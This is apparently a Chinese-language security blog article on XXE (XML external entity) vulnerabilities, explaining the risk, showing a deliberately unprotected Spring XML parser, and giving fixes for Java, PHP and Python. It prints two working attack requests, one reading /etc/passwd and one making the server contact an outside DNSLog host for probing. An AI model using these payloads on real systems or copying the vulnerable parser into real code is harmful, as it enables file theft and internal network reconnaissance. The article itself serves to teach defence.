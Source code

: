 #  防范XXE漏洞：XXE攻击详解与应对策略   
原创 todobest  SDL安全   2025-01-02 11:48  
  
# 一、XXE 漏洞概述  
  
XML（可扩展标记语言）是一种用于标记电子文件的结构化语言，它能够对数据进行标记并定义数据类型。XML允许用户自定义标记语言，因此在数据交换和存储中被广泛使用。  
## 1.1 XML 文档结构  
  
XML文档的基本结构包括以下几个部分：  
1. XML 声明 ：指定 XML 的版本和编码方式。  
  
1. DTD（文档类型定义） ：可选部分，定义 XML 文档的合法构建模块，可以在文档内部声明，也可以外部引用。  
  
1. 文档元素 ：具体数据的组织和标记。  
  
## 1.2 XXE 漏洞及其危害  
  
XXE（XML External Entity）漏洞是一个严重的安全漏洞。当应用程序允许 XML 引用外部实体时，恶意用户可以构造特定内容，从而导致以下危害：  
1. 读取系统上的任意文件。  
  
1. 执行系统命令。  
  
1. 探测内网端口，获取网络信息。  
  
1. 进行针对内网网站的攻击。  
  
# 二、漏洞示例  
## 2.1 示例代码  
  
如下代码主要功能是接收XML内容，通过XML解析器将其解析为DOM对象，并最终将该DOM对象转换为字符串进行返回。代码并没有对XML内容的安全性检验。  
```
import org.springframework.web.bind.annotation.PostMapping;import org.springframework.web.bind.annotation.RequestBody;import org.springframework.web.bind.annotation.RestController;import org.w3c.dom.Document;import javax.xml.parsers.DocumentBuilder;import javax.xml.parsers.DocumentBuilderFactory;import javax.xml.transform.OutputKeys;import javax.xml.transform.Transformer;import javax.xml.transform.TransformerFactory;import javax.xml.transform.dom.DOMSource;import javax.xml.transform.stream.StreamResult;import java.io.ByteArrayInputStream;import java.io.IOException;import java.io.StringWriter;@RestControllerpublic class XmlController {    @PostMapping("/parse-xml")    public String parseXml(@RequestBody String xmlContent) {        try {            DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();            DocumentBuilder builder = factory.newDocumentBuilder();            Document doc = builder.parse(new ByteArrayInputStream(xmlContent.getBytes()));            // 打印 Document 的内容            return convertDocumentToString(doc);        } catch (Exception e) {            return"Error parsing XML: " + e.getMessage();        }    }    // 将 Document 转换为字符串    private String convertDocumentToString(Document doc) {        try {            TransformerFactory transformerFactory = TransformerFactory.newInstance();            Transformer transformer = transformerFactory.newTransformer();            transformer.setOutputProperty(OutputKeys.OMIT_XML_DECLARATION, "no");            transformer.setOutputProperty(OutputKeys.INDENT, "yes");            StringWriter writer = new StringWriter();            transformer.transform(new DOMSource(doc), new StreamResult(writer));            return writer.getBuffer().toString();        } catch (Exception e) {            return"Error converting Document to String: " + e.getMessage();        }    }}
```  
## 2.2 接口请求  
- 如下是发送的请求包，读取本地文件  
  
```
POST /parse-xml HTTP/1.1Host: localhost:8000Content-Type: application/xmlContent-Length: 159<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [  <!ENTITY xxe SYSTEM "file:///etc/passwd"> <!-- 读取本地文件的示例 -->]><foo>&xxe;</foo>
```  
- 接口返回的内容![](https://mmbiz.qpic.cn/mmbiz_jpg/RjLIsDJd9EJlCzZj0Tf0GVzvxArAHxTPFCVicriaSgxxX8EDNcEMvUEhHVEkHBmb5euNXEzltb8NrUV0NYuV7svQ/640?wx_fmt=jpeg&from=appmsg "")  
  
  
- 如下请求，探测地址，本次请求，使用DNSLog探测  
  
```
POST /parse-xml HTTP/1.1Host: localhost:8000Content-Type: application/xmlContent-Length: 176<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [  <!ENTITY xxe SYSTEM "http://6223dbe1.log.dnslog.sbs/"> <!-- 这里可以替换为任意 URL -->]><foo>&xxe;</foo>
```  
- 发现服务器请求了这个域名地址（可以用于内部端口探测）  
  
![](https://mmbiz.qpic.cn/mmbiz_png/RjLIsDJd9EJlCzZj0Tf0GVzvxArAHxTPM3lwBicfuuvHTkEDbRgib8bU0jLGdTK2YwKiauuRH9NmTdNgHb561PaeQ/640?wx_fmt=png&from=appmsg "")  
# 三、修复建议  
1. 使用开发语言提供的禁用外部实体的方法。确保在解析XML前禁用DTD（文档类型定义）和禁止外部实体的解析。  
  
1. 过滤用户提交的XML数据，特别是对于嵌入XML或DTD的输入，进行严格的验证和过滤，确保它们不包含对外部实体或不安全的结构的引用。  
  
## 3.1 Java代码示例  
```
// bad@RequestMapping("/xxe")public void test(String xmlstr) throws  IOException {    DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();    try {        InputStream is = new ByteArrayInputStream(xmlstr.getBytes());        DocumentBuilder builder = factory.newDocumentBuilder();        builder.parse(is);    } catch (Exception e) {        e.printStackTrace();    }}// good@RequestMapping("/no_xxe")public void test(String xmlstr) throws  IOException {    DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();    try {        // 禁用DTD、禁止外部实体解析        factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);        factory.setFeature("http://xml.org/sax/features/external-general-entities", false);        factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);        InputStream is = new ByteArrayInputStream(xmlstr.getBytes());        DocumentBuilder builder = factory.newDocumentBuilder();        builder.parse(is);    } catch (Exception e) {        e.printStackTrace();    }}
```  
## 3.2 PHP代码示例  
```
// good：加载XML前，禁用实体解析libxml_disable_entity_loader(true);$$xml = simplexml_load_string($$xmlContent);
```  
## 3.3 Python代码示例  
```
// good 禁用外部实体from lxml import etreexmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```  
# 四、总结  
  
在当今网络安全形势日益严峻的环境中，XXE（XML External Entity）漏洞作为一种常见的XML解析安全问题，得到了越来越多的关注。 首先，XXE漏洞利用了XML解析器在处理外部实体时的安全缺陷，攻击者可以通过精心构造的XML文档，读取系统内部敏感文件、执行任意命令，甚至进行内部网络探测。一旦系统遭到攻击，可能导致数据泄露、服务中断甚至更为严重的后果，因此，了解并防范XXE漏洞非常重要。 针对这一漏洞，禁用DTD及外部实体的解析是最直接且有效的方式。此外，通过严格的输入验证和过滤，提升解析器的安全性，也能有效降低潜在的风险。作为开发者，理解如何安全地处理XML数据，不仅仅是编写代码的一部分，更是保护用户数据和维护系统安全的重要责任。  
  
参考文档  
- XML 语法 https://www.runoob.com/xml/xml-syntax.html  
  
- DTD 教程 https://www.runoob.com/dtd/dtd-tutorial.html  
  
- XMLReader https://docs.oracle.com/javase/8/docs/api/org/xml/sax/XMLReader.html  
  
  
  
  
